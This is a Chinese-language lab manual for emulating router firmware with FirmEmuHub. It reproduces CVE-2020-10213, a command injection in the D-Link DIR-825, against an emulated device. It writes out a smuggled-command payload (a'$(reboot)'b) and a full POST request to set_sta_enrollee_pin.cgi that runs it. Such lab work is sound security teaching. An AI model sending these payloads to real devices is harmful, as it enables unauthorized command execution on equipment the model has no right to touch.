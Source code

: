 # 系统态固件仿真实验手册
---
## 1.实验目的
1. [x] 掌握系统态固件仿真的基本原理和技术
2. [x] 使用 FirmEmuHub 工具进行完整固件仿真
3. [x] 复现固件中的漏洞
---
## 2.实验环境
- 主机系统:Kali

- 硬件要求:
  - CPU:支持虚拟化技术
  - 内存:>4GB
  - 存储:≥10G空间
- 软件要求:
  - Git
  - Docker(确保能成功拉取到dockerhub上的镜像)
  - Python 3.8+
---
## 3.实验步骤
### 第一部分:系统态固件仿真环境搭建
克隆 FirmEmuHub 仓库
执行下面的代码克隆仓库：

```bash
git clone https://github.com/a101e-lab/FirmEmuHub.git
```

进入克隆的文件夹后使用`pip`安装环境：

```bash
pip install -r requirements.txt
``` 
由于kali的系统python环境受到了保护，所以这里需要新建一个新的环境并配置镜像源加速来安装依赖(最后介绍)，正常运行的效果如下图所示：

![](./img/pip正常效果.png)


### 第二部分:固件仿真

**1.一键启动仿真环境**

执行下面的命令启动仿真环境：（注意该环境的启动需要`docker`作为前提，并且需要配置`docker`镜像加速）
```bash
sudo python3 emulation.py -b ./Benchmark/BM-2024-00003
```

正常启动下效果如下：

![](./img/正常启动.png)

**2.Web界面访问**

并且可以直接在浏览器中访问`虚拟机ip:端口号`

![](./img/启动网页web.png)

密码为空，直接可以登入：

![](./img/登录web.png)

### 漏洞复现
#### 漏洞原理

本次实验将复现 `CVE-2020-10213` 命令注入漏洞。该漏洞是 `D-Link DIR-825 Rev.B 2.10` 版本中的一个命令注入漏洞。远程攻击者可通过向 `set_sta_enrollee_pin.cgi` 文件发送带有 `wps_sta_enrollee_pin` 参数的 `POST` 请求，利用该漏洞执行任意命令。 

```php
//代码表示
char cmd[256];
sprintf(cmd，"some command'%s'"，user_input);//用户输入直接拼接到命令中system(cmd);//执行命令
```

#### 漏洞复现步骤

**1.准备payload**

根据漏洞可知构建下面的一个payload：
```
a%27%24%28reboot%29%27b
```
URL解码后为：
```
a'$(reboot)'b
```

即在服务器中执行了一个重启指令

**2.发送请求**

构建下面的数据包请求并使用`burpsuit`或`yakit`等工具发送：

```
POST /set_sta_enrollee_pin.cgi / HTTP/1.1
Host: 192.168.131.9:32768
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Length: 111

wps_sta_enrollee_pin=a%27%24%28reboot%29%27b&html_response_page=do_wps.asp&html_response_return_page=do_wps.asp
```
具体操作演示图下图：

![](./img/攻击.png)

**3.验证漏洞利用结果**

发送完毕后可以返回网页端验证，会发现网页无法加载

![](./img/攻击结果1.png)

回到任意终端区尝试访问web地址也会返回空：

![](./img/攻击结果2.png)

说明之前的指令`reboot`得到了执行，漏洞复现成功


---
## 遇到的问题与解决方法

`pip`安装环境失败：
解决方法为安装环境管理工具：

```bash
sudo apt install python3.13-venv
```

![](./img/python环境工具.png)

创建一个环境（iot）并应用
```bash
python3 -m venv iot
source iot/bin/activate
```

![](./img/python环境创建并应用.png)

由于下载以依赖缓慢所以还要继续配置加速：

```bash
mkdir -p ~/.config/pip
vim ~/.config/pip/pip.conf
pip config list#验证配置

```

![](./img/python环境配置加速.png)

完成一系列操作后即可正常使用`pip`安装依赖环境

固件仿真环境启动失败：
这里我所经历的的失败是由于`docker`环境的问题,首先是使用的这个kali虚拟机比较纯净，还没有安装`docker`,然后由于`docker`的镜像加速没有配置导致无法访问拉取`dokcer hub`上的镜像

依次安装和配置完加速后再次运行
```bash
sudo python3 emulation.py -b ./Benchmark/BM-2024-00003
```
经过大概三分钟等待后即可正常启动
